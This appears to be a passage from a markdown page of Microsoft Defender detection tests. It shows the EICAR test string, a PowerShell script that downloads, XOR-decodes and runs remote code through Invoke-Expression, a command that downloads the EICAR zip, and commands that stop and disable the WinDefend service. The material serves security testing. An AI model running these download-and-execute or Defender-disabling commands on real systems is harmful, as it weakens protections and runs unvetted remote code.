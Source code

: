 `EICAR` string
```
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*<removeme>
```


## 3. Suspicious powershell script
```powershell
# Set the security protocol to TLS 1.2
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

# Define the XOR key as a byte array encoded in UTF-8
$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection')

# Fetch the base64 encoded string from the specified URL
$base64String = (Invoke-WebRequest -URI https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt -UseBasicParsing).Content

# Try to convert the base64 string to byte array, handle potential errors
Try {
    $contentBytes = [System.Convert]::FromBase64String($base64String)
} Catch {
    # If there's an error, attempt to convert the base64 string after removing the first 3 characters
    $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3))
}

# Initialize a counter and an array to store the decrypted bytes
$i = 0
$decryptedBytes = @()

# Decrypt the content using XOR operation
$contentBytes.ForEach {
    $decryptedBytes += $_ -bxor $xor[$i]
    $i++
    if ($i -eq $xor.Length) {
        $i = 0
    }
}

# Execute the decrypted content as a PowerShell expression
Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```

```powershell
Invoke-WebRequest  "https://www.eicar.org/download/eicar_com-zip/?wpdmdl=8847&refresh=65d4b58cc7e0e1708438924" -OutFile C:\project\ps.zip
```

## 4. Suspicious command detected
```cmd
sc stop WinDefend
# sc config WinDefend start= disabled
```
![image](https://github.com/user-attachments/assets/d9fa1692-3284-417e-8fdd-7690dba49ebc)
